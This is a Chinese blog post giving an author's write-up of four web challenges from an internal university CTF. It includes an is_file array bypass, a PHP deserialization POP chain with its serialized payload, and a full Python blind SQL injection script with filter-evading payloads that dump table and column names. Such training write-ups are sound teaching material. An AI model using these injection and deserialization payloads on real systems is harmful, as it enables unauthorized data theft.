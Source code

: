 ```yaml
---
title: henuctf2021-Web WP
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720210308190505.jpg'
authorAbout: steamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-03-07 21:42:48
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1130992.png
---
```


实验室内部比赛，四个Web，都没什么难度，但可能没有考虑到20的学习情况，所以相对而言出得确实稍微难了一点。

一、Find
看了大家WP都是直接传flag.php的。。。

这题的本意其实完全不是这样的，当时出的快没细看，想着总得出一个php基础的题就想到了一个点，没想到大意了（不应该include flag.php的。。。

本题的考点就是用数组绕过is_file函数：

name[]=1
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210307215001.png)

也算一个比较有意思的点吧 记住就行。

二、Mai
php反序列化，没想到大家都没遇见过这种的。。。我记得buu上有很多反序列化的，可能是还没做到。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210307215305.png)

这道题稍微有点反序列化知识就能做，源码也很少。
首先根据提示要先知道key，那么就需要触发toString魔法函数，我看到有些同学都在想办法把什么对象当字符串输出，没错这是触发toString的方法之一，但是在这里并没有机会。事实上，只要把对象当成字符串比较就能触发toString了。即我后来提示的wakeup函数的第一行。所以在construct函数中实例化baby类就行了。

POP链：

    <?php
    class baby{
	    public $baby;
    }
    class flag{
	    public $baby;
	    public function __construct(){
		    $this->baby = new baby();
	    }
    }
    $troy3e=new flag();
    echo serialize($troy3e);
    ?>

得到

    O:4:"flag":1:{s:4:"baby";O:4:"baby":1:{s:4:"baby";N;}}

传参得key

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210307220504.png)

令code等于key

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210307220621.png)

传参得flag

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210307220654.png)

最后总结下思路：

flag类的$this->baby实例化为baby类 -> Get传参henu触发反序列化 -> 反序列化瞬间触发wakeup -> wakeup函数中将对象当字符串比较触发baby类toString -> 输出key

三、Love

和hgame week2 200ok!基本上一模一样的 估计大家都没看我发的wp吧。。。
贴个脚本自己看吧
出盲注确实有点离谱了，我是想着让大家复习一下hgame那道题的，没想到大家都没看，这种盲注大二之前尽量掌握。  

    import requests
    
    flag = ""
    url = "http://henuctf.com:5555/Love/"
    for i in range(1,1000):
        l = 28
        h = 132
        mid = (l + h) // 2
        while(l<h):
            #payload = "1'^(ord(mid(database(),{0},1))>{1})^'1'#".format(i,mid)
            #payload = "1'^(ord(mid((seselectlect(group_concat(table_name))ffromrom(information_schema.tables)where(table_schema='test')),{0},1))>{1})^'1'#".format(i, mid)
            #payload = "1'^(ord(mid((seselectlect(group_concat(column_name))ffromrom(information_schema.columns)where(table_name='flaghere')),{0},1))>{1})^'1'#".format(i, mid)
            #payload = "1'^(ord(mid((seselectlect(group_concat(yourflag))ffromrom(test.flaghere)),{0},1))>{1})^'1'#".format(i, mid)
            data={"name":payload,"submit":"%E7%AB%8B%E5%8D%B3%E5%8C%B9%E9%85%8D"}
            r = requests.post(url=url,data=data)
            #print(r.text)
            if "樱岛麻衣" in r.text:
                l = mid + 1
            else:
                h = mid
            mid = (l + h) //2
        flag +=chr(mid)
        print (flag)
    print (flag)

四、shop

这题是我前天buu上做到的 因为很简单就让永奇学长复现了环境 没想到大家也没遇见过。。。。确实是我的问题

这题很多人都做出来了 也就不多说了（因为已经被提示完了

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210307221859.png)